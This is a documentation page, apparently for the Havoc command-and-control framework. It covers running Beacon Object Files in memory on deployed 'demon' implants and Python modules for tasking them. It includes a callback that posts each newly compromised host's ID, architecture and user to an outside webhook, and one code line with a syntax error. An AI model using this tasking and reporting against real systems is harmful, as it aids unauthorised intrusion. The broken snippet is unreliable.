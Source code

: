 # 7. Object Files

The Havoc agent supports in-memory execution of object files, commonly known as Beacon Object Files or BOFs.  

To execute an object file, you can run:  `inline-execute /tmp/objectfile.x64.o`

## Python modules
From python, you can pack data as you normally do in Cobalt Strike. You can find several examples of how to do this in [this](https://github.com/HavocFramework/Modules) repository.  

### Register a new command

First, import the following packages:
```python
from havoc import Demon, RegisterCommand, RegisterModule
```

Define the body of your new command:  
```python
def my_new_command( demonID, *params ):
    TaskID : str    = None
    demon  : Demon  = None
    # create an instance of the argument packer
    packer = Packer()
    # get an instance of the demon
    demon  = Demon(demonID)

    # check the parameters
    if len(params) != 1:
        demon.ConsoleWrite( demon.CONSOLE_ERROR, "wrong parameters!" )
        return False

    # pack the parameters
    packer.addstr( params[ 0 ] )

    # create a task ID  
    TaskID = demon.ConsoleWrite( demon.CONSOLE_TASK, f"Tasked demon to execute some BOF" )

    # instruct Havoc to run a BOF with certain parameters
    demon.InlineExecute( TaskID, "go", f"bin/some_BOF.{demon.ProcessArch}.o", packer.getbuffer(), False )

    # return the new task ID
    return TaskID
```

Register the new command:
```python
RegisterCommand( my_new_command, "", "command-name", "A short description of what it does", "", , "usage info", "usage example" )
```

### Get the output of a BOF in python
Also, you can run an object file and obtain the result with a callback, like so:
```python
def my_callback(demonID, worked, output):
    print('hi there! I am the python callback of the "locale" BOF')
    print(f'demonID: {demonID}')
    print(f'did the BOF run ok?: {worked}')
    if worked:
        print('here you have the output :)')
        print(output)
        print('bye!')

def locale( demonID, *param ):
    TaskID : str    = None
    demon  : Demon  = None

    demon  = Demon( demonID )

    return demon.InlineExecuteGetOutput( my_callback, "go", "ObjectFiles/locale.x64.o", b'' )
```

### Get a callback upon new demons

In this example, we call a webhook on all incoming demons.  

```python
import requests
from havoc import Demon, RegisterCallback

def alert_new_demon( demonID ):
    demon  : Demon  = None
    demon  = Demon( demonID )

    # send some basic info to the webhook about this new demon
    info = {
    'id': demonID,
    'arch': demon.ProcessArch,
    'user': demon.User,
    # etc...
    }

    # send!
    requests.post('https://some.webhook.com/new-demon', data=info)

RegisterCallback( alert_new_demon )
```
